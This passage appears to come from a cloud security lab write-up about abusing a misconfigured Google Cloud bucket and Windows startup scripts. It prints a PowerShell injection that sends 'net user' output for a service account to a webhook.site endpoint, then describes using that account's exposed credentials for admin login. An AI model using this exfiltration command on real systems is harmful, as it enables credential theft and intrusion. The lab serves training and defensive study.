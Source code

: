 One method to exfiltrate data easily is to try the `net user` command. But how can you receive the information? As explained in [this reddit post](https://www.reddit.com/r/hacking/comments/1e1nrgv/how_do_hackers_go_about_transferring_huge_amounts/):

> "Security teams focus a LOT of time securing inbound attacks, but often have blanket rules allowing outbound traffic [...]."

Which is true in our environment. We only need a server in the wild listening for requests. We can use [Webhook.site](https://webhook.site), which is a tool used by developers. However, adversaries can use it as a remtoe repository for data exfiltration.

Assumming that you injected the `net user` command first and discovered that the windows domain has a user `sql_service` (which you may recall, has its password in the resource description), this will be your next injection command:

```PowerShell
Start-Sleep -Seconds 60; Invoke-WebRequest -Uri "https://webhook.site/{your-token}" -UseBasicParsing -Method POST -Body $(net user sql_service)
```

![](/src/images/scc-secops-lab/72-misc-rodc_net_user_outbound_exfil.png)

Notice that the injected command has a delay of one minute. This is because the startup scritps run too early during the boot proces, specifically before the Local Security Authority Subsystem Service (LSASS) and the IE COM engine (Internet Explorer).

You can read more about startup scripts in [Use startup scripts on Windows VMs](https://cloud.google.com/compute/docs/instances/startup-scripts/windows). Try to build your own initial access script in a different way.

**Final considerations**

For our lab this is fantastic. You can now login to the Windows domain remotely using the **SQL Service** account credentials (which you may recall, has admin privileges).


[Finding Class: Misconfigurations, Vulnerability; Resource Type: Google Cloud storage bucket; Severity: High]: #